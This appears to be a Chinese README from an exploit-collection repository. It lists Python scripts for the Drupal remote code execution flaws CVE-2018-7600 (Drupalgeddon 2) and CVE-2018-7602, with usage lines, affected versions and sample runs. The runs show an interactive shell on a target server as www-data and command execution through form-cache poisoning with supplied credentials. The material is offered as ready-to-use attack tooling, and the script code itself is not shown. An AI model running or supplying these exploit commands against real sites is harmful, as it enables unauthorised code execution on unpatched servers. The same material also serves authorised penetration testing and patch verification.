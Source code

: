 # About Drupal
Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEB应用程序。截止2011年底，共有13,802位WEB专家参加了Drupal的开发工作；228个国家使用181种语言的729,791位网站设计工作者使用Drupal。著名案例包括：联合国、美国白宫、美国商务部、纽约时报、华纳、迪斯尼、联邦快递、索尼、美国哈佛大学、Ubuntu等。

# Vulnerability list
[**cve-2018-7600_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本[[使用]](https://freeerror.org/d/426)  
[**cve-2018-7600_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600  
[**cve-2018-7602_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)  
[**cve-2018-7602_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600 

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/drupal#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述



**脚本内容在github获取**



## CVE-2018-7600_cmd.py	Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本
> USE:
> ```
> +----------------------------------------------------------------------+
> + DES: by zhzyker as https://github.com/zhzyker/exphub                 +
> +      Drupal Drupalgeddon 2 远程代码执行 CVE-2018-7600                +
> +----------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                        +
> + EXP: python3 cve-2018-7600_cmd.py http://1.1.1.1:8080                +
> + VER: Drupal 6.x                                                      +
> +      Drupal 7.x < 7.58                                               +
> +      Drupal 8.3 < 8.3.9                                              +
> +      Drupal 8.4 < 8.4.6                                              +
> +      Drupal 8.5 < 8.5.1                                              +
> +----------------------------------------------------------------------+
> + DES: Shell仅能回显一行代码，多行代码结果查看http://xxxx/exphub.txt   +
> +----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_cmd.py http://freeerror.org:8080
> [+] http://freeerror.org:8080/exphub.txt
> 
> Shell >>> id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> Shell >>> whoami
> www-data
> Shell >>> exit
> ```

## CVE-2018-7600_poc.py	该脚本可检测 CVE-2018-7602 和 CVE-2018-7600
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_poc.py http://freeerror.org:8081
> 
> +------------------------------------------------------------------+
> +                           iDrupal                                +
> +                          by IAmG0d                               +
> +------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                    +
> + EXP: python3 cve-2018-7602_poc.py http://freeerror.org:8081      +
> +------------------------------------------------------------------+
> + DES: 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600                 +
> +------------------------------------------------------------------+
> 
> [~] Checking the version of http://freeerror.org:8081/
> [+] Possibly vulnerable to CVE-2018-7600!
> [+] Possibly vulnerable to CVE-2018-7602!
> [0:)] Thank You For Using... Goodbye
> ```

## CVE-2018-7602_cmd.py	Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-drupal$ python cve-2018-7602_cmd.py admin admin http://freeerror.org:8080 -c id
> ()
> +---------------------------------------------------------------------------------+
> +   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     +
> +                                   by pimps                                      +
> +---------------------------------------------------------------------------------+
> + USE: python3 <filename> <username> <password> <url> -c <command>                +
> + EXP: python3 cve-2018-7602_cmd.py admin admin http://1.1.1.1:8080 -c "id"       +
> + VER: Drupal 7.x < 7.59                                                          +
> +      Drupal 8.4 < 8.4.8                                                         +
> +      Drupal 8.5 < 8.5.3                                                         +
> +---------------------------------------------------------------------------------+
> + DES: CVE-2018-7602 Need Username Password                                       +
> +---------------------------------------------------------------------------------+
> 
> [*] Creating a session using the provided credential...
> [*] Finding User ID...
> [*] User ID found: /user/1
> [*] Poisoning a form using 'destination' and including it in cache.
> [*] Poisoned form ID: form-6iAq8Ou5pKFQqEZ4sh1A_zQI_5QMSC71Stp4ohaseW0
> [*] Triggering exploit to execute: id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
